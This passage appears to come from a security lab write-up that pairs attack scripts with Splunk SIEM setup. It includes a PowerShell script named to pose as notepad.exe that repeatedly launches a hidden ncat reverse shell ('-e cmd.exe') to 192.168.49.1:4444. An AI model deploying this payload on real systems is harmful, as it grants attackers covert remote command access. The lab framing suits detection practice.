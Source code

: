 ```powershell

    $button = New-Object System.Windows.Forms.Button
    $button.Text = "OK"
    $button.Location = New-Object System.Drawing.Point(100,70)
    $button.Add_Click({ $form.Close() })
    $form.Controls.Add($button)

    $form.ShowDialog()
}
catch {
    # None
}
```

**notepad.ps1 (-> notepad.exe)**

```powershell
$IP = "192.168.49.1" 
$Port = 4444          
$NcatPath = "$env:TEMP\Notepad\ncat.exe"
$ReconnectDelaySeconds = 5 

Start-Sleep -Seconds 10
while ($true) {
    try {
        $process = Start-Process -FilePath $NcatPath -ArgumentList "$IP $Port -e cmd.exe" -WindowStyle Hidden -PassThru -ErrorAction SilentlyContinue    
        $process.WaitForExit()
        
    }
    catch {
        # None
    }
    Start-Sleep -Seconds $ReconnectDelaySeconds
}
```

### 2. SIEM

#### **a. Install Splunk**

Link: https://www.splunk.com/en_us/download.html

After install, the server is on: `http://192.168.49.1:8000`

#### **b. Configuration Indexers**

Add 3 indexers:

- `windows_system_logs`
- `security_events`
- `sysmon_logs`

#### c. Configure receiving
